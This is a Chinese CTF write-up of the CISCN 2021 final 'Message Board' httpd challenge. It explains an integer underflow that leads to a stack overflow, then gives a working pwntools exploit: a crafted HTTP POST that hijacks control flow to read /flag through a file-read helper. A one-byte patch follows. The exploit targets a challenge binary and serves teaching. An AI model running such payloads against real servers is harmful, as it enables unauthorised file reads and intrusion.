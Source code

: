 > 原文链接: https://www.anquanke.com//post/id/247645 


# ciscn 2021 Final Day2 Message Board 思路分享


                                阅读量   
                                **24807**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t01566e32813fd65e6b.jpg)](https://p5.ssl.qhimg.com/t01566e32813fd65e6b.jpg)



## 0x00 前言

今年华为之夜没有中奖，看来抽奖致富不可取，还是要树立勤劳致富的正确态度。所以就让我来分享一下今天刚打的`httpd`

[附件](https://wwa.lanzoui.com/iPBQdrl67de)(附件不包含html网页，不能用浏览器访问这个题)



## 0x01 程序分析

首先看main函数，似乎整个main都没干啥实际有用的东西，最后跟进`sub_804906C(s);` 这里是程序逻辑的核心。首先理清程序大致的一个逻辑。这其中有一个if语句是区分POST和GET的，GET分支的语句基本上就是读取文件然后输出的逻辑。POST语句中submit似乎有点复杂，我们细看这里的变量传递

[![](https://p3.ssl.qhimg.com/t0117b939968b54c1cd.png)](https://p3.ssl.qhimg.com/t0117b939968b54c1cd.png)

如果Message里面没有以“|”结尾的情况，那就要—n。可是问题来了，假如这里的n是0，到时候—n，则`n=0xffffffff`,到下面的`fread`就会造成一个栈溢出。



## 0x02 漏洞利用

### <a class="reference-link" name="EOF"></a>EOF

那看起来似乎是很简单的一个栈溢出？那么你现在首先到达第一个坑点：无法停止读取stdin。细想一下`fread`函数从文件流里读取字符，参数又指定了大小，那么只有`EOF`才能让他停止。所以我们这里理论上只能发送一次ROP链，而且需要让`pwntool`发送`EOF`。查询资料得知：

```
p = remote(xxxx,xx)
p.shutdown_raw('send')
```

可以断开EOF了，我们根据之前访问时的预留的Message对返回地址长度进行动态测量。在我这里大致的HTTP请求偏移0x82d

```
p1 = cyclic(0x82d) + p32(0)
payload = '''POST /submit HTTP/1.1
Content-Length: 0
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: Username=88888; Messages=Gyan

`{``}`'''.format(p1)
```

### <a class="reference-link" name="Gadget"></a>Gadget

细看函数表发现这里没法用常规的思路，一方面只能溢出一次就要点开连接似乎没法泄露`libc`地址，另一方面这里每一个读写函数都要用到文件流

[![](https://p0.ssl.qhimg.com/t01c23d5d89691a64e8.png)](https://p0.ssl.qhimg.com/t01c23d5d89691a64e8.png)

那我就退一步吧！不拿shell，读个文件就行了吧！这里我们可以想到一个地方

[![](https://p5.ssl.qhimg.com/t01e7abd1a3d8c512e5.png)](https://p5.ssl.qhimg.com/t01e7abd1a3d8c512e5.png)

这个函数是封装的读取文件函数。我们劫持到这里可能就可以成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b34139234a5acd59.png)

[![](https://p0.ssl.qhimg.com/t014f4a24ff9428a2d2.png)](https://p0.ssl.qhimg.com/t014f4a24ff9428a2d2.png)

这里的EBP被栈溢出覆盖了，所以我们需要找到一个可控的地址来写文件名就可以成功！

### <a class="reference-link" name="bss%E6%AE%B5%E4%B8%8A%E7%9A%84dest"></a>bss段上的dest

翻看全局变量，我们发现了一个`dest`变量，逆向分析得知他似乎是来装一个HTTP头的，我们断在我们的gadget处看一下dest现在长啥样

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01950e715724b6087e.png)

哈哈，因为一般电脑上`User-Agent` 很长，我这里是

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
```

结果只剩下了

```
x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
```

那我把这剩下这段改成`/flag`就不是可以任意文件读啦？<br>
这里的地址是`0x804c1b1` 加上EBP偏移就是`0x804C5DD`

所以最终的payload就是：

```
p1 = cyclic(0x829) +p32(0x804C5DD) + p32(0x8049305)
payload = '''POST /submit HTTP/1.1
Content-Length: 0
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; /flag
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: Username=88888; Messages=Gyan

`{``}`'''.format(p1)
payload = payload.replace("\n","\r\n")
```

exp：

```
from pwn import *
context.log_level = "debug"
p = process(['./httpd'])
# p = remote("10.1.136.10",10000)
elf = ELF("./httpd")
p1 = cyclic(0x829) +p32(0x804C5DD) + p32(0x8049305)
payload = '''POST /submit HTTP/1.1
Content-Length: 0
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; /flag
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: Username=88888; Messages=Gyan

`{``}`'''.format(p1)
payload = payload.replace("\n","\r\n")
p.send(payload)
p.shutdown_raw('send')
p.interactive()
```



## 0x03总结：

这个题非常有意思，一方面比较贴近实战，另一方面让我这个只会栈溢出的菜鸡给我们菜队贡献了一份力量，稳住了排名



## 0x04 patch:

patch 我觉得是作者故意留给你一段代码可以让你可以只patch一个字节

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0155cc87397a970c24.png)

这里的if是判断v14是否是负数，可是v14本身是无符号数，再加上前面的判断就可以完成本身的功能了，所以这里我们把汇编代码对应的`jns`改成`jnz`即可



## 0x05 参考资料：

[https://blog.csdn.net/weixin_43921239/article/details/117341777](https://blog.csdn.net/weixin_43921239/article/details/117341777)
